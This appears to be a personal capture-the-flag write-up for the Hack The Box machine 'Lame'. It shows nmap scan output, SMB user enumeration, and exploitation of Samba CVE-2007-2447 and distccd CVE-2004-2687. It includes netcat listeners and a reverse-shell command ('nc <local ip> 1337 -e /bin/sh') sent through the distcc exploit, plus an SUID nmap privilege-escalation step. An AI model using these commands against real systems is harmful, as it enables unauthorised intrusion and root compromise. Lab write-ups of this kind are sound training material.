 #CVE-2004-2687 #CVE-2007-2447 #CVE-2011-2523 #vsFTPd #smbd #nmap

----
#### Reconnaissance

`nmap -sC -sV -p- -Pn 10.10.10.3`

```
Nmap scan report for 10.10.10.3
Host is up (0.079s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.42
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-11-07T23:38:51-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h26m42s, deviation: 3h32m10s, median: -3m19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 199.67 seconds
```

#### Enumeration

###### Port 22 - File Transfer Protocol
- Anonymous login using:
	- ftp : ftp
	- anonymous : anonymous
	- anonymous :
- vsFTPd 2.3.4
	- CVE-2011-2523: Backdoor command execution vulnerability
	- opens shell on port 6200/tcp
	- Exploit was not successful

##### Port 139, 445 - Server Message Block
- Null Session
	 `rpcclient 10.10.10.3 -U '' -N`

```
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
rpcclient $> enumdomgroups
rpcclient $> enumdomgroup
command not found: enumdomgroup
rpcclient $> enumdomusers
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
```

- Samba smbd 3.0.20
	- CVE-2007-2447 - Arbitrary Code Execution
		- [Exploit Github Repository](https://github.com/amriunix/CVE-2007-2447)

##### Port 3632 - DistCC Daemon
- Distcc is designed to speed up compilation by taking advantage of unused processing power on other computers. A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed.
- CVE-2004-2687
	- [Exploit Github Repository](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

#### Exploitation

##### Exploitation #1: Samba smbd 3.0.20
`kali@kali:/$ nc -lvnp 3333`

`kali@kali:/$ ./usermap_script.py 10.10.10.3 139 10.10.14.13 3333`

![[Screen Shot 2022-12-19 at 10.36.35 PM.png|500]]
![[Screen Shot 2022-12-19 at 10.37.01 PM.png|500]]

##### Exploitation #2: CVE-2004-2687

`kali@kali:/$ nc -lvnp 1337`

`kali@kali:/$ ./disccd_exploit.py -t <victim ip> -p 3632 -c "nc <local ip> 1337 -e /bin/sh"`

![[Screen Shot 2022-12-19 at 10.50.26 PM.png|500]]
![[Screen Shot 2022-12-19 at 10.51.21 PM.png|500]]

##### Privilege Escalation w/ Exploitation #2

Important SUID files:
`-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap`
- nmap version 4.53
- The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands with root privileges due to owner being root
- [GTFOBins]( https://gtfobins.github.io/gtfobins/nmap/)

![[Screen Shot 2022-12-19 at 11.20.34 PM.png|480]]




